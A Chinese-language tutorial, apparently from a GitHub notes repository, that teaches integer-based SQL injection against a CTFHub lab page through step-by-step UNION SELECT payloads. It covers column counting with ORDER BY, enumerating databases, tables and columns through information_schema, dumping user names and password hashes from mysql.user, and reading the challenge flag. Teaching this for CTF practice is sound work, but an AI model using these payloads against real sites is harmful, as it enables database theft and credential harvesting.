# 1.5-sql-注入

- 学习这个之前需要有mysql基础+php基础，如果对于这两个不了解，轻移至https://www.runoob.com
- 上面的链接是菜鸟教程，可以学习mysql+php


## 1.1-整型注入

- 这里我们拿ctfhub来做实验

- 

- 可以看到上图中有一个sql语句

- ```
  select * from news where id=1
  ```

- 这其中的变量1是我们可控的，sql注入的关键就在于这个可控的变量，在这之前，我们需要学习前置知识

- mysql中的union联合语句

  - union联合语句是什么？

    - MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中。多个 SELECT 语句会删除重复的数据。

  - union联合语句可以干啥？

    - 在日常操作中可以同时查询两个字段数量相同数据

  - union联合语句语法是什么？

    - ```
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions]
      UNION [ALL | DISTINCT]
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions];
      ```

    - 可以看出union只是负责将两个select语句连接起来，起到同时执行两个select语句，其中还有两个参数，一个ALL和一个DISTINCT

      - ALL: 可选，返回所有结果集，包含重复数据。
      - DISTINCT:可选，删除结果集中重复的数据。默认情况下 UNION 操作符已经删除了重复数据，所以 DISTINCT 修饰符对结果没啥影响。（默认）

  - 知道了以上前置知识之后咱就可以尝试sql注入了

  - 

  - 当我们输入id为2的时候会回显一个skill的数据，如果为1的时候会回显一个ctfhub的数据，由于变量可控，我们就可以尝试使用union联合查询，union联合查询有一个特点，当我们查询的第一个select语句无效，则会返回第二个select语句的数据，但是我们前面的字段和后面一个select的字段一定要一致，因此我们第一步是拆解字段数

  - 拆解字段数可以使用order by num 语句

  - 

  - 上图是order by 字段的作用，根据order by的特性，可以用下标作选择第几个字段，如果字段存在则返回数据，如果不存在则报错，那么我们可以根据order by 一个数字来判断字段数量

  - 

  - 上图中我的变量不仅仅写的是1而是 1 order by 1 #，这里面的井号表示的是mysql的注释，一般情况是为了闭合才写的，这里因为是数字型注入，所以不写也没关系

  - 

  - 

  - 根据上面两张图片可以发现字段为2的时候存在数据，为3的时候不返回数据，则表示该语句返回的字段数为2个

  - 

  - 根据上图可以发现执行成功，说明存在union联合注入

  - 

  - 这个时候我们尝试让第一个select语句报错，于是输入了一个11，因为数据库中不存在11所以就返回了第二个select字段，第二个select查询结果应该是 1,2 这里可以看到id回显为1，data回显为2

  - 我们先查询一下mysql的版本

  - 

  - 可以看到是mariadb 10.3.22这个和mysql8版本相似（因为mariadb和mysql是同一个人写的，所以差异并不大）

  - 于是我们可以查询所有的数据库名称，在这之前我们需要知道一个数据库（information_schema)

  - 

  - information_schema数据库是MySQL系统自带的数据库，它提供了数据库元数据的访问方式，包含了所有的数据库名和表名以及字段名

  - 构造以下语句查询数据库

  - ```
    11 union select 1,group_concat(schema_name) from information_schema.schemata
    ```

    - group_concat() --> 将group by产生的同一个分组中的值连接起来，返回一个字符串结果。

  - 

  - 查询mysql数据表

  - ```
    11 union select 1,group_concat(table_name) from information_schema.tables where table_schema='mysql'
    ```

  - 

  - 查询user字段名

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='mysql'
    ```

    

  - 

  - 查询user,authentication_string数据

  - ```
    11 union select 1,group_concat(User,authentication_string) from mysql.user
    ```

    

  - 

  - 这里我在sqli数据库中找到了flag表

  - 

  - 查询flag表的所有字段

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'
    ```

    

  - 查询flag

  - ```
    11 union select 1,group_concat(flag) from sqli.flag
    ```

    

  - 

  - 至此咱的数字型注入就结束了，如果换成其他类型的注入除了构造payload不同以外，其他的查询都是一样的，因此，之后的其他类型注入我们只找到注入点，详细的查询参考上面的数字型注入即可或者直接使用sqlmap也行

    
  
  